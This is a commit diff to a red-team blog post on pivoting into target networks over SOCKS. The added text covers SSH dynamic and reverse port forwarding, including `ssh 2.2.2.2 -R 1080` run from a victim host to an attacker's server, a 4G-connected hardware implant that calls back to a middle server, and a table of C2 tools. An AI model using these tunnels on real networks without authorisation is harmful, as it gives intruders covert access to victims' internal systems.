

Before and after one commit to bitsadmincom/bitsadminblog.github.io, a Jekyll site: the page built from _posts/2023-08-15-living-off-the-foreign-land.md, in a window 1280 px wide and 900 px high, scrolled down 4874 px. Built offline with Jekyll 4.4.1, drawn with Linux system fonts in a browser that asks for light colours; some of the changed text lies outside the part shown.

Commit message:
Minor improvements

````diff
--- a/_posts/2023-08-15-living-off-the-foreign-land.md
+++ b/_posts/2023-08-15-living-off-the-foreign-land.md
@@ -123,7 +123,11 @@ Most C2 software has SOCKS functionality built-in. Once the SOCKS server is star
 Besides using the built-in SOCKS functionality of C2 software there are also various other setups which allow access to the target network over SOCKS. These setups will be discussed in the following subsections.
 
 ## SSH
-The SSH client which is nowadays present on both Windows and Linux has SOCKS functionality built-in. When connecting over SSH to a remote host using the SSH client, it is possible to provide the `-D` parameter with a port number to the SSH client, which then opens a SOCKS4a listener on the client host. For example, `ssh 2.2.2.2 -D 1080` will connect to the SSH server running on port `22/TCP` of `2.2.2.2`, and then on the client (`1.1.1.1`) launch a SOCKS4a listener on the loopback interface on port `1080/TCP`.
+The SSH client which is nowadays present on both Windows and Linux has SOCKS functionality built-in. Moreover, SSH can expose SOCKS on either the SSH client side or on the SSH server side.
+
+When connecting over SSH to a remote (victim) host using the SSH client, the `-D` parameter can be provided with a port number to the SSH client, which then opens a SOCKS4a listener on the client host. For example, `ssh 2.2.2.2 -D 1080` will connect to the SSH server running on port `22/TCP` of `2.2.2.2`, and then on the client (`1.1.1.1`) launch a SOCKS4a listener on the loopback interface on port `1080/TCP`.
+
+Alternatively, using the `-R` parameter an SSH connection can be established from the victim host (`1.1.1.1`) to the attacker's SSH server (`2.2.2.2`), exposing the network to which the victim is connected on a SOCKS port on the attacker's SSH server. The commandline for this setup is `ssh 2.2.2.2 -R 1080`. Once connected, the attacker's SSH server will have a SOCKS4a listener on port `1080/TCP`.
 
 ## Hardware implant
 A bit more complex setup could also be used during a red team with a hardware implant like a Raspberry Pi, which is for example connected to the network outlet in a meeting room. This hardware implant then automatically connects back over a 4G/5G dongle to an online hosted Linux middle server where in the connection the `-R 2222:127.0.0.1:22` parameter to expose the SSH port of the hardware implant on the middle server. This then allows the attacker to connect to the middle server, and through port `2222` on this middle server get access to the hardware implant where again the `-D` parameter of the SSH client is used to launch the SOCKS server on the attacker side. This then provides the attacker access to the network where the hardware implant is connected. The blue lines in the schematic indicate that these connections are going over the 4G/5G dongle of the hardware implant.
@@ -465,7 +469,7 @@ Because split tunneling is used, the iptables rules need to be configured for bo
 During pentesting and red teaming activities a best practice is to maintain logging of interactions with the client environment, such as the network traffic. The LOFL setup allows for a very easy logging of such network traffic by simply running a tcpdump on the `tun1` interface. Such command looks as follows.
 
 ```bash
-tcpdump -s0 -n -i tun1 -w \$(date +%Y%m%d%H%M%S).pcap
+tcpdump -s0 -n -i tun1 -w $(date +%Y%m%d%H%M%S).pcap
 ```
 
 # Conclusion
@@ -525,7 +529,7 @@ When launching Windows Terminal (`wt.exe`) from an elevated prompt in which the
 | C2        | Metasploit        | Yes                 | No      | Yes, transparent         | <https://www.metasploit.com/>                 | Documentation: <https://www.rapid7.com/db/modules/auxiliary/server/socks4a/>                                                       |
 | C2        | Sliver            | Yes                 | ?       | Yes, transparent         | <https://github.com/BishopFox/sliver>         | Documentation: <https://github.com/BishopFox/sliver/wiki/Reverse-SOCKS>                                                            |
 | C2        | \*                | n/a                 | n/a     | n/a                      | <https://www.thec2matrix.com/>                | Website dedicated to comparing many different C2 frameworks, including whether they have SOCKS support                             |
-| Hardware  | Hardware implant  | No                  | No      | n/a                      | n/a                                           | Connecting to hardware implant or a Linux server and specifying the dynamic port forwarding flag (`-D`): `ssh -D 1080`                 |
+| Hardware  | Hardware implant  | No                  | No      | n/a                      | n/a                                           | Connecting to hardware implant or a Linux server and specifying the dynamic port forwarding flag (`-D`): `ssh -D 1080` or reverse dynamic port forwarding flag (`-R`): `ssh -R 1080`                 |
 | RDP       | Ica2Tcp           | n/a                 | No      | n/a                      | <https://github.com/synacktiv/ica2tcp>        | For Citrix                                                                                                                         |
 | RDP       | rdp2tcp           | n/a                 | No      | n/a                      | <https://github.com/V-E-O/rdp2tcp>            | For rdesktop in Linux                                                                                                              |
 | RDP       | SocksOverRDP      | n/a                 | No      | n/a                      | <https://github.com/nccgroup/SocksOverRDP>    | SOCKS tunnel over dynamic virtual channels of Microsoft Remote Desktop or Citrix Remote Desktop                                    |
````
Also changed, not shown: _posts/2023-08-15-living-off-the-foreign-land-part-2.md (+1 -1 lines).
